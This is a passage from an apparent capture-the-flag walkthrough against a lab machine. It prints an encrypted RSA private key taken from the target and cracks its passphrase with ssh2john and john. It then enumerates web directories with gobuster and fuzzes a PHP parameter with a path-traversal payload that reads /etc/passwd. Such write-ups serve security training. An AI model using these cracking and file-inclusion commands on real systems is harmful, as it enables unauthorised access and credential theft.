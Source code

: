     -----BEGIN RSA PRIVATE KEY-----
    Proc-Type: 4,ENCRYPTED
    DEK-Info: DES-EDE3-CBC,6F30B7B22B088AB2

    JmLJqI4m9jk1McrIzNFyuYrPyPu3Znw6awuyEIK0ZctgYabjNk5MVCM0FH45SQCl
    rqK3QqSACiOq4+DnMWrECj5CO+JPzGjIupgz8IrW0Cr7mkRSNa9fCeEBrIzAi924
    GEM72PMuwlBM4zWDZ/962gtZpDnzXYLc9mYdVTe+ubI2NrVC6d2ak1L5GMsBdYwi
    BVj8bhnUsr4doXi1ZcRAZoHUses/Z8ohfNXkUoDO2d1kQmiE0hAVEUnBerzV+E84
    GpJFBgHphboG9E+R3Gh27viM3pY0qFvU/PWbTJ8Y6LgSgJPMLldlEuBEym0LPDpc
    27L7wdKEYwCjPWBGtuGnKsdfleQfsyKijH8/YDlH0hsrDc83ZMcDR13jtfZbZjHZ
    IwVdhUuKdHp6Ig4lmxi1RqJA35CD6ZHHMzOKlm1TjQskA0j6jdPeJ3o5ebh/z3oe
    tr3FKEawz+2KQa+CX+frCwN/rLFUc8MOvh7I4/jJ9o2kdKB0u5OHH+pgXfmhTJzl
    mVSqOtti7cxefUb142Jltku5kElwKdvVEHw+qmZNMwrw+Kv7rlpvezfsW4uzm8Je
    nlmxXoMl62Z3FKPjKarEqZrbO6bHf6lWAIrJgJGydRn1tpD/IY1DJZKwa0aLrkbr
    7hu8C0LSpIVdy5ZUSaT04ZL/FBxDQR7cg2/ZYF5Kc1pvIgjXrlEsbbSPDyg2bLIW
    eCMRnevvsTS8l55qUvQ2GO73kHMcWfkAsvUaojLiSxXGTcd+gPf6kXiwTbz2wbTR
    KPzDwKaTn74yW+9jc88+6D8CdT6OrN+2eP8K0ukdNwMqVc+Mag0TOOCwq+QVfKwf
    O7A+3+13xjUy1/TKRIJDXuhL88RDrzA7U4uy9ZDYEq5z2HVc3agqnHMBP4k2n0KE
    u2YoCNOp52Q4YpKoXoz5Ojw8CuUIhNqoilh/0j+gkdgIO5jMAEBT7p6M/fnhfHpe
    VNCimSJfTjLCU49Tez0HeDDCuE4oG/vShjM0ebZHMMWTY8vVOaRz4Ktcx938Jpnj
    /j9Z0NEAEUI2ISZGGDLS/O0fhyN9lsl1UrY2yR3NnXgbX3YkjWLDM4C8mWSCejpl
    XhWSUYlt8X83atlUfTcn97QVGeJXvlJhBUrYEtsTHjDc2lsH3KQNYtpckQizpcyW
    axJjIeWhI+eqWIVwsXTxKI2hIa6XuYdjUP7cusDad+pUo1Y7h0wTwLP1KYtkXrm3
    sEvB8X2mX6tHB+1iO67UKjFdZ7Ti1Q2XY6zCCbOl3S5b24MFAFANDYgkr1QtgQqs
    j+tSrrd1yOn4AeM6SdyLdVxKQBY2s0+9dvLmaJLH9OOdV0G4I4WcMuum40WMzXrf
    fBAMIh7Gl0lEWPOrPtOxrQI++kAlyzNTK1oxSvdc/f30TOB4hGH8yU3EKzRh/QTa
    fHkcKP9V7Y0xKwrg2yLuWsFSt4QnFUZEbV+wDq2i9NqvriYOxSa2qarPP04FVZRp
    5xYdSGWdMuPFTEAaM+67wR33zzlYKvnEmE9CRHnAqVpqHFuNmgYD+S3KhzW3X1A3
    zlflWacIB06p/cXCr3w6XNqa0y2TsNmuT2IR6JX+Qr6usNV4QWL/Jyyy4dE1oBG6
    -----END RSA PRIVATE KEY-----

Reading the private key we can see that it encrypted, so if we want to log in to the remote machine via **`SSH`** we need to find the passphrase for the private key. We can use the command [**`ssh2john`**][1], that allows us to convert the private key to a hash and crack it using **`jonh`**.

    root@kali ~/D/M/Hat# ssh2john id_rsa > hash

    root@kali ~/D/M/Hat# john hash --wordlist=/usr/share/wordlists/rockyou.txt 

![image](https://user-images.githubusercontent.com/76552238/174980274-935ba652-fe10-46fa-85d8-93530e3b1254.png)

Now we need to find a username to log in to **`SSH`** with the private key. Let's go back to HTTP and scan the second directory.

    root@kali ~/D/M/Hat# gobuster dir -u http://10.0.0.24/php-scripts/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt -x txt,php,html

    /index.html           (Status: 200) [Size: 7]
    /file.php             (Status: 200) [Size: 0]

Going to **`http://10.0.0.24/php-scripts/file.php`** we don't have any content displayed. Since this is a PHP script I tired passing variables in the url such as "**file**" but nothing changed. Let's try to fuzz the url and find the right variable name.

    root@kali ~/D/M/Hat# wfuzz -c -z file,/usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u 'http://10.0.0.24/php-scripts/file.php?FUZZ=../../../../../../../etc/passwd' --hh 0


[1]: "https://vk9-sec.com/ssh2john-how-to/"
[2]: "[awd](https://gtfobins.github.io/gtfobins/nmap/)"